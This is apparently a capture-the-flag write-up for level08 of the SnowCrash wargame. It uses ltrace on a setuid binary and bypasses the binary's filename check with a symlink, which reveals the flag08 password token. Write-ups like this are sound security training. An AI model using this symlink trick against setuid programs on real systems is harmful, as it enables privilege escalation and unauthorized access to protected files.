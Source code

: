 We have executable file with SUID bit and 'token' file with user flag08 
```shell
level08@SnowCrash:~$ ls -la
total 28
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```
Use ltrace to intercept dynamic library calls and system calls executed by the program:
```shell
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff6e4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
) = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
If we try another file for example:
```shell
level08@SnowCrash:~$ ltrace ./level08 .profile 
__libc_start_main(0x8048554, 2, 0xbffff6e4, 0x80486b0, 0x8048720 <unfinished ...>
strstr(".profile", "token")             = NULL
open(".profile", 0, 014435162522)       = 3
read(3, "# ~/.profile: executed by the co"..., 1024) = 675
write(1, "# ~/.profile: executed by the co"..., 675# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
```
If name of file not matching 'token'. It will open read and print.
So I can link the token file with another file with name flag, for example, and run with it our executable:
```shell
level08@SnowCrash:~$ ln -s ~/token /tmp/flag
level08@SnowCrash:~$ ./level08 /tmp/flag
quif5eloekouj29ke0vouxean
```
Nom we can get access to flag08
```shell
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
```
And get flag
